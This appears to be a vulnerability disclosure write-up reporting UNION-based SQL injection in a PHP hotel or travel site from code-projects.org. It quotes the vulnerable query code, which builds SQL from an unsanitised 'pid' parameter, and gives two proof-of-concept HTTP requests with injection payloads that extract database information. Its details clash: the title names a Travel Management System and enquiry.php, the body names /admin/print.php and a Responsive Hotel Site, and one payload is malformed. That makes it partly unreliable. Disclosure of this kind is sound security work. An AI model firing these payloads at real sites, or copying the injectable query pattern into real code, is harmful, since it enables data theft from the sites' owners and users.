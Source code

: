 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/responsive-hotel-site-using-php-source-code/



## Vulnerability file



/admin/print.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
	ob_start();	
	include ('db.php');

	$pid = $_GET['pid'];
	
	
	
	$sql ="select * from payment where id = '$pid' ";
	$re = mysqli_query($con,$sql);
```

###### The key parameter has moved from '$pid' to '$sql'`

## POC1

```
GET /admin/print.php?pid=2'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+fMnC HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5226nusitfi5p0qsg8q74pe0si
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

![image-20250104153049848](E:\work\me\cve\cve\Responsive Hotel Site\image-20250104153049848.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104153228228](E:\work\me\cve\cve\Responsive Hotel Site\image-20250104153228228.png)

![image-20250104153334813](E:\work\me\cve\cve\Responsive Hotel Site\image-20250104153334813.png)